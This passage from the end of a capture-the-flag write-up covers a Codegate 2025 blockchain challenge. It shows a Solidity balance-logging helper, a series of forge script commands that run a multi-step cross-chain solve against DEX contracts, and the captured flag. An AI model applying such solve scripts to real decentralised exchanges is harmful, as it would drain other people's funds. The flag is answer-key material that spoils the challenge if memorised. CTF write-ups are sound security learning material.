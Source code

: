     function logBalances_gate() public {
        console.log("\nmy");
        console.log("USDC my bal:", tokenA_gate.balanceOf(address(myAddr)));
        console.log("PURR my bal:", tokenB_gate.balanceOf(address(myAddr)));
        console.log("MOO my bal:", tokenC_gate.balanceOf(address(myAddr)));
        console.log("\ndex");
        console.log("USDC DEX bal:", tokenA_gate.balanceOf(address(dex_gate)));
        console.log("PURR DEX bal:", tokenB_gate.balanceOf(address(dex_gate)));
        console.log("MOO DEX bal:", tokenC_gate.balanceOf(address(dex_gate)));
    }

    function logBalances_code() public {
        console.log("\nmy");
        console.log("USDC my bal:", tokenA_code.balanceOf(address(myAddr)));
        console.log("PURR my bal:", tokenB_code.balanceOf(address(myAddr)));
        console.log("MOO my bal:", tokenC_code.balanceOf(address(myAddr)));
        console.log("\ndex");
        console.log("USDC DEX bal:", tokenA_code.balanceOf(address(dex_code)));
        console.log("PURR DEX bal:", tokenB_code.balanceOf(address(dex_code)));
        console.log("MOO DEX bal:", tokenC_code.balanceOf(address(dex_code)));
    }
}


{{< /code >}}


Running the solve script is split into several parts due to the cross chain component. Note that this is done after setting code for the faucet.

```bash
forge script Solve --sig run --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_0 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_1 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_2 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_3 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_4 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_5 --broadcast && sleep 10
forge script Solve --sig code_swap_usdc_purr_6 --broadcast && sleep 10
forge script Solve --sig code_swap_moo_0 --broadcast && sleep 10
forge script Solve --sig code_final_solve_0 --broadcast && sleep 10
forge script Solve --sig code_final_solve_1 --broadcast
```


{{< image src="./img/solve.png" alt="" position="center" style="border-radius: 5px; width: 80%" >}}

Get flag `codegate2025{f166ec27fa5efeac43470f8ab0f662effc56666a62d64998eafdca85a5fe3b54}`

And blood the challenge!!

{{< image src="./img/blood.png" alt="" position="center" style="border-radius: 5px; width: 70%" >}}

Thanks to `snwo` for authoring this challenge!

# Conclusion
